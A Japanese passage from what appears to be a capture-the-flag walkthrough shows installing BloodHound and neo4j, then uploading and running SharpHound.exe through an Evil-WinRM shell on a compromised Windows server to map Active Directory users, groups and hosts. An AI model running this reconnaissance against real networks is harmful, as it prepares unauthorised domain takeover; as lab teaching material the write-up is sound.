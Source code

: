 ```

詳しくは@v_avengerさんの以下の記事が参考になります。

https://qiita.com/v_avenger/items/56ef4ae521af6579c058

また、レッドチーム実践ガイドをお持ちの方は4.8 Windowsドメイン環境を乗っ取る 3. Bloodhound / Sharphound (P.163)にも詳しく書かれています。

まずはインストールします。

```
# apt install -y bloodhound
```

neo4jも必要なので起動させます。

```
# neo4j console
```

```http://localhost:7474/browser/```へアクセスして初期設定としてパスワードの変更を行います。

(変更後のパスワードはこの後Bloodhoundで利用します)

Bloodhoundを起動します。

```
# bloodhound 
```

ログイン画面が出てきますのでユーザー名、変更後のパスワードを入力します。

真っ白いキャンバスが出てきたらOKです。

次にWindowsサーバー上でBloodhoundのIngestorを実行し、Active Directoryのユーザー、グループ、ホストの情報を収集させます。

Ingestorは[GithubのBloodhound](https://github.com/BloodHoundAD/BloodHound)のIngestor以下にあるSharpHound.exeを使います。

こちらをwinPEASと同様にWindowsサーバーにアップロードして実行します。

```
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload SharpHound.exe

*Evil-WinRM* PS C:\Users\FSmith\Documents> ./SharpHound.exe
```

実行すると以下のようなzipファイルが生成されます。

```
*Evil-WinRM* PS C:\Users\FSmith\Documents> dir

